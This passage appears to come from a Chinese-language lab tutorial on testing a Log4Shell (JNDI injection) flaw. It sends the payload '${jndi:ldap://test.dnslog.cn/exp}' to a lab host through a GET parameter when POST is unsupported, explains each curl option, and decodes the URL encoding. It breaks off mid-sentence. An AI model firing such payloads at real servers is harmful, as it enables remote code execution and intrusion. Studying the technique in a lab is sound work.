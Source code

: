 3.在此执行命令 `curl -X OPTIONS 目标地址 -i` 查看目标网址支持的HTTP请求方法：

<img src="picture/查看支持的请求.png" alt="查看支持的请求" style="zoom:50%;" />

**那么如果 `POST` 不被支持，如何绕过？**

在此我们使用了 `GET` 请求+参数，这个命令使用 `curl` 发送了一个 **GET 请求**，并通过 **URL 参数** 的方式传递了 `payload` 数据。

```bash
curl -G http://192.168.109.4:23480/hello --data-urlencode 'payload=${jndi:ldap://test.dnslog.cn/exp}'
```

> **各部分解析**
>
> | 内容                                                         | **作用**                                                     |
> | ------------------------------------------------------------ | ------------------------------------------------------------ |
> | `curl`                                                       | 使用 `curl` 命令行工具发送 HTTP 请求                         |
>| `-G`                                                         | 让 `curl` 以 **GET 方法** 发送请求（默认 `curl` 发送的是 `POST`，加上 `-G` 变成 `GET`） |
> | `http://192.168.109.4:23480/hello`                           | 目标 URL，即 Web 服务器的 `/hello` 接口                      |
>| `--data-urlencode 'payload=${jndi:ldap://test.dnslog.cn/exp}'` | **URL 编码参数**，把 `payload=${jndi:ldap://test.dnslog.cn/exp}` 以 URL 查询参数（Query Parameter）的形式添加到请求中 |
> 
>------
> 
>**实际发送的请求**
> 
> `curl -G` 的作用是 **把 `--data-urlencode` 里的参数转换成 URL 查询参数**，最终 `curl` 发送的 HTTP 请求会变成：
> 
> ```bash
> GET /hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Ftest.dnslog.cn%2Fexp%7D HTTP/1.1
> Host: 192.168.109.4:23480
>User-Agent: curl/7.XX.X
> Accept: */*
>```
> 
>这里：
> 
>- ```
>   payload=%24%7Bjndi%3Aldap%3A%2F%2Ftest.dnslog.cn%2Fexp%7D
>   ```
> 
>   - `%24` → `$`
>   - `%7B` → `{`
>   - `%7D` → `}`
>  - `%3A` → `:`
>   - `%2F` → `/`
>
> 所以 `payload` 实际传递的内容仍然是：